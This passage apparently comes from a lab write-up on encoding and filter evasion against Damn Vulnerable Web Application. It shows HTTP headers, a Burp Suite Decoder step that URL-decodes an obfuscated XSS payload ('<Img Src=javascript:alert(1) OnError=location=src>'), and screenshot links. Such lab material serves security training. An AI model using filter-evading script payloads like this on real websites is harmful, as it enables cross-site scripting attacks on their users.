```http
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

`burpsuite` > `Decoder`

`Input`:
```
%3cImg%20Src%3djavascript%3aalert(1)%20OnError%3dlocation%3dsrc%3e
```
`Decode as: URL`:
```
<Img Src=javascript:alert(1) OnError=location=src>
```

![Lab - Damn Vulnerable Web Application 4](./assets/encoding_filtering_and_evasion_basics_lab_damn_vulnerable_web_application_4.png)

![Lab - Damn Vulnerable Web Application 5](./assets/encoding_filtering_and_evasion_basics_lab_damn_vulnerable_web_application_5.png)

![Lab - Damn Vulnerable Web Application 6](./assets/encoding_filtering_and_evasion_basics_lab_damn_vulnerable_web_application_6.png)
